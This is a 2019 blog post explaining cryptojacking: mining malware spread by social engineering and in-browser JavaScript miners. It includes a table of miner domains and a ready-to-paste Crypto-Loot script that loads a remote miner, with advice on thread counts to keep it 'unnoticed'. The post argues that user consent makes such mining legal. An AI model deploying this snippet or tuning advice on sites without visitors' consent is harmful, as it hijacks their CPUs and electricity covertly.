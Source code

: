 :slug: cryptojacking-malware/
:date: 2019-08-25
:category: documentation
:subtitle: Understanding cryptojacking "malware"
:tags: social engineering, javascript
:image: cover.png
:alt: CPU Usage. Photo by Alberto Duo on Unsplash: https://unsplash.com/photos/e4rcg33x4fA
:description: This blog will provide an explanation of the different types of cryptojacking and provide an example of one along with its basic configuration. We will also discuss the legal use of cryptojacking and the advantages of implementing it in an application.
:keywords: Blockchain, Cryptocurrencies, Cryptojacking, Mining, Malware, Javascript.
:author: Diego Alvarez
:writer: diegoaa
:name: Diego Alvarez
:about1: Systems and Telecommunications Engineer student
:about2: "Blessed is the man who expects nothing, because he will never be disappointed." Alexander Pope
:source: https://unsplash.com/photos/e4rcg33x4fA

= Cryptojacking, a real malware?

Before we begin,
we need a brief definition of blockchain.
It is simply a unique, consensual, and
distributed registry on the network
that allows storage of information
that cannot be modified, lost or deleted.
It is used in the health sector, smart contracts,
intellectual property management, and cryptocurrencies,
the last being its most common use.

In the field of cryptocurrencies,
a blockchain stores all transactions
made with a cryptocurrency.
The security and integrity of these systems
are maintained by nodes,
which are computers connected to the blockchain network
competing with each other to verify transactions.
This process is known as mining
and is carried out by providing processing power
with either `CPUs`, `GPUs`, or by
using specialized hardware for this type of task.

Usually nodes associate with each other
and create groups that working
together help to validate
a group of transactions.
When these transactions are validated,
each node is rewarded with
the proportion of the power contributed.

== Concept

When mining cryptocurrency,
take into account
that in these processes,
the percentage of `GPU` or `CPU` usage increases,
as well as, the use of electricity.

Now, what if I tell you that
others can provide you with the processing power,
and even better, without having
to divide the profits between them.
It sounds pretty good,
and it's simple to implement with two variations.

* The first is carried out by
infecting a victim's machine with malware.
Usually, this is done by social engineering.
We can make a victim,
without their knowledge, download malware
that executes the mining process in the background.
* The other variation is in-browser mining.
This executes code in the user's browser
when the user is accessing a particular site.
In this case, `JavaScript` is used to execute such scripts.

== Discussion

On one hand, some people prefer that
their `CPU` be used `100%` of the time,
without having to deal with ads
and pop-ups on every new page.

On the other hand, antivirus companies
periodically update their definition of malware
and include web miners as a potential threat to a user's system.

According to reports by COINTELEGRAPH<<r1 ,^[1]^>>, Monero
(the currency most affected
by excessive mining)
plans to reinforce its algorithm
by requiring miners to dedicate
over two gigabytes of `RAM` to the process,
which could make cryptojacking attempts harder to hide.

How the scripts are used
defines whether the usage is legal or not.
There are cases where attackers
inject code into websites through `XSS`,
generating profits, but do not have the consent
of the website administrator.

As noted above, with social engineering techniques,
the attacker could make victims download malicious programs
to perform mining without consent.

== Tools

There are many tools that can be used to perform in-browser mining.
link:https://krebsonsecurity.com/2018/03/who-and-what-is-coinhive/[Coinhive] had been one of the most used,
but since March 2019 it has stopped working.

However, there are other tools that are quite similar.
Table 1 below, a scan made with link:https://publicwww.com/[publicWWW], shows
the approximate number of websites using these tools.

.Quantity of websites per library<<2 ,^[2]^>>
[options="header"]
|====
|Website           |Results |Query Parameter
|Coinhive          |30611   |"coinhive.min.js"
|JSEcoin           |1131    |"load.jsecoin.com"
|Crypto-Loot       |695     |"CryptoLoot.Anonymous"
|Minr              |324     |"minr.pw", "st.kjli.fi", "abc.pema.cl",
"metrika.ron.si", "cdn.rove.cl", "host.d-ns.ga", "static.hk.rs",
"hallaert.online", "cnt.statistic.date", "cdn.static-cnt.bid"
|CoinImp           |317     |"www.coinimp.com/scripts/min.js"
|ProjectPoi (PPoi) |116     |"projectpoi.min"
|AFMiner           |46      |"afminer.com/code/miner.php"
|Papoto            |42      |"papoto.com/lib/papoto.js"
|====

In the following example, a test is shown using link:http://Crypto-Loot[Crypto Loot],
a library that is replacing the previous Coinhive.
It is very easy to implement in any application
by inserting the following code.

.In-Browser mining script
[source, javascript, linenums]
----
<script src="//statdynamic.com/lib/crypta.js"></script>
<script>
  var miner = new CRLT.Anonymous('15837bc7758859e913c5ccc2d292a9f1e54775389d5',
    { threads:4,throttle:0.2, coin: "xmr" }
  );
  miner.start();
</script>
----

When a user visits the application,
the processing level quickly increases.
The recommended thread value
to make the script unnoticed is between 2-4.
And the throttle that defines the maximum `CPU` usage
is at 0.2 (80%), the full speed being 0.0,
and the least recommended.

.CPU Usage while visiting a website with In-Browser mining script.
image::cpu.png[CPU Usage]

Collected earnings and processing power
can be seen on the link:https://crypto-loot.org/dashboard/[dashboard]
of the person who inserted the script.

== Conclusion

The use of services such as link:http://Crypto-Loot[Crypto Loot] can be legal.
They are considered malware
when used anonymously in user's systems.
It is our responsibility
to inform users about what is happening
and provide statistics to users on mined power.

In order for these mining methods
to be legitimate and therefore, legal,
users must receive a notification
about the execution of these scripts, as well as
the option to disable them and stop mining.

So far, there are few websites
where the user is not actually informed
of the use of these scripts.
Here is where antivirus companies disagree.
Some antivirus companies believe excessive `CPU` usage
can cause intentional damage,
while others believe there is no intention
to harm an infected machine's files;
they just make the machine work a little slower.

Without a doubt, no one wants their machine to work slower,
but with proper configuration of the scripts,
you can achieve a website that generates profits
without having to show annoying ads to visitors
and without exceeding `CPU` usage.

== References

. [[r1]] COINTELEGRAPH.
link:https://cointelegraph.com/news/monero-developers-consider-adopting-new-proof-of-work-algorithm-in-october[Monero Developers Consider Adopting New Proof-of-Work Algorithm in October.]

. [[r2]] S. Eskandari, A. Leoutsarakos, T. Mursch and J. Clark (2018).
link:https://sci-hub.tw/https://ieeexplore.ieee.org/abstract/document/8406561[A first look at browser-based cryptojacking].
_2018 IEEE European Symposium on Security and Privacy Workshops (EuroS&PW)_, 63.
